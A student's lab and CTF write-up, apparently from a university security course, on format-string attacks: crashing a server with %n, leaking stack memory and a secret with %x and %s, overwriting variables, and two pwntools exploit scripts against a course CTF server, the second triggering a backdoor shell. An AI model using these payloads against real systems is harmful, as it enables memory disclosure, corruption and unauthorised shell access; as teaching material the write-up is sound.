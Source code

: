 # Trabalho realizado na Semana #6

## Task 1 : Crashing the Program

We were able to crash the program by sending a "%n" modifier to the server.
This will command the printf to print the number of printed bytes to a specified variable. Since there is no address being passed in the printf() call, the program will search for an address on the stack. The variable on top of the stack, at the moment, is the function's frame pointer, which will be overriden and the program will crash, unable to return.

## Task 2 : Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

We needed 64 "%x" format specifiers to be able to print out our input data. We used the hex number 0xABCDEF12 to be able to tell.
These specifiers will iterate the stack, printing the values it finds. This means we can access our own bytes after 63 hex numbers (4 bytes each), which can be used for a possible attack.

![Task 2A attack code](string0.png)

### Task 2.B: 

We managed to print the server's secret message by putting its address on the stack (by inserting it in the printf call), printing the calculated offset in the last task (63 hex numbers of 4 bytes) and, finally, printing from the desired address using "%s".

![Task 2B attack code](string1.jpg)

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

Instead of using the secret message address, this time the goal was to change the value of the target, so we used it's address and, by using "%n", we wrote the number of characters already written in printf to the variable.

![Task 3a attack code](target.png)

### Task 3.B: Change the value to 0x5000

We want to write to the target variable by using "%.nd" and "%n", so we had to check for the variable address again. We noticed that, after writting "%x" 62 times, we could read the value on that address. Since we want to write the value 0x5000 to it, we must write that amount of characters to the printf and, after this, write to the variable using "%n".

![Task 3b attack code](target2.png)

![Task 3b target value](target_value.png)

## CTF - Desafio 1

O primeiro desafio de CTF desta semana pode ser resolvido obtendo o endereço da variável global *flag* (visto não haver proteção PIE) e usar um exploit *template string* para ler o valor desta variável. Assim sendo, foi feito o seguinte:
- Usar *gdb* para descobrir o valor da variável global, usando `p &flag`
- Converter o endereço obtido para bytes, com order em *little*
- Concatenar estes bytes com "%s", para conseguir ler o endereço guardado na stack (o mesmo que foi retirado do *gdb*).
- Enviar o resultado ao servidor e obter a flag. Isto resulta porque o printf vai ler o endereço que colocamos na stack, que será o endereço da variável global flag.

Em baixo, encontra-se o código do exploit:
```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")

tmp = 0x804C060
bytes = (tmp).to_bytes(4, byteorder='little')

var = bytes + b"%s"
p.sendline(var)
p.interactive()

```

## CTF - Desafio 2

O segundo desafio também se baseia em descobrir o endereço de uma variável global e usar um exploit *template string*, mas desta vez com o objetivo de escrever para esta variável. Assim sendo, fez-se o seguinte:
- Usar *gdb* para descobrir o valor da variável global, usando `p &key`
- Converter o endereço obtido para bytes, com order em *little*
- Enviar para o servidor, em bytes, a seguinte sequência: "%.48867d" + bytes + "%x%n". Isto vai escrever 0xbeef carateres para a saída padrão e escrever esse número na variável com o endereço que descobrimos. O "%x" é utilizado para limpar a stack, para que o nosso endereço alvo seja utilizado pelo "%n" (para descobrir quantos "%x" tínhamos de usar, demos print até vermos o endereço utilizado).
- Sendo que a variável *key* já toma 0xbeef como valor, o programa dá-nos acesso a uma shell (backdoor), sendo que a flag pode ser lida com o comando `cat flag.txt`.

Em baixo, encontra-se o código do exploit:
```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")

tmp = 0x804C034
bytes = (tmp).to_bytes(4, byteorder='little')

var = b"%.48867d" + bytes + b"%x" + b"%n"

p.sendline(var)
p.interactive()

```
